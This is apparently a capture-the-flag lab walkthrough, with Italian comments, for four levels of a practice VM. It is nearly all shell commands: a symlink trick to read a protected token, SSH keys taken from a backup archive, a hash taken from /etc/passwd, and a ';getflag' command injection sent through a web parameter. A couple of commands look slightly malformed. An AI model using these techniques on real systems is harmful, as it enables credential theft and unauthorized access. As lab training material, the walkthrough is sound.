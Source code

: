 
## Flag04 (TOKEN)

```bash
ln -s /home/flag04/token /tmp/link04
./flag04 /tmp/link04
# il file token contiene la password per loggare come flag04
su flag04
```

---

## Flag05 (BACKUP-SSH)

```bash
cd /home/flag05
ll
# .backup contiene file tar riservato
cd .backup
cp backup-19072011.tgz /tmp
# estrarre
tar -zxvf backup-19072011.tgz
# la cartella nascosta .ssh contiene le chiavi
cd .ssh
ssh -i .ssh/id_rsa flag05@127.0.0.1
```

---

## Flag06 (HASH)

```bash
cat /etc/passwd | grep flag06
https://hashes.com/en/decrypt/hash
su level06
```

---

## Flag07 (HOST)

```bash
ss -tuln
cat /home/flag07/thttpd.conf | port
# è una O non uno zero
wget -qO- 'http://127.0.0.1:7007/index.cgi?Host=%3Bgetflag'
# se non va, spostarsi prima in /tmp
# se non va
wget -qO- "http://192.168.1.224:7007/index.cgi?Host=127.0.0.1+%3b+/bin/getflag"
```

---
